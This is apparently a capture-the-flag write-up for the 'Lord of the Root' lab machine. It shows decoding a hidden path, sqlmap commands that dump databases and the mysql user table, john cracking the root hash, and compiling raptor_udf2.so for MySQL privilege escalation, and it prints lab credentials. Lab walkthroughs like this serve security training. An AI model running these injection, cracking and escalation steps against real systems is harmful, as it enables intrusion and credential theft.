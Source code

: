 # LORD OF THE ROOT

## BASIC INFO
```
export IP=10.10.52.33

open port:
	22 OpenSSH 6.6.1p1
	1337 http
```

Navigating on the page (port 1337), found base64 string on any 404 page.
`THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh`
After decoding it becomes `Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!`\
Finally `/978345210/index.php`

Using sqlmap on the index.php we got above.
`sqlmap -o -u http://10.10.52.33:1337//978345210/index.php --forms --dbs` found that password is injectable.

So enumerating Webapps database got us the username and password for the web app.
```
username:	frodo
password:	iwilltakethring
```

let's try the other database. mysql database
`sqlmap -o -u http://10.10.52.33:1337/978345210/index.php --forms -D mysql -T user -C User,Password --dump`

Now we got the user root with it's password hash.\
Crack the hash with john.\
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

root: darkshadow
```

gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc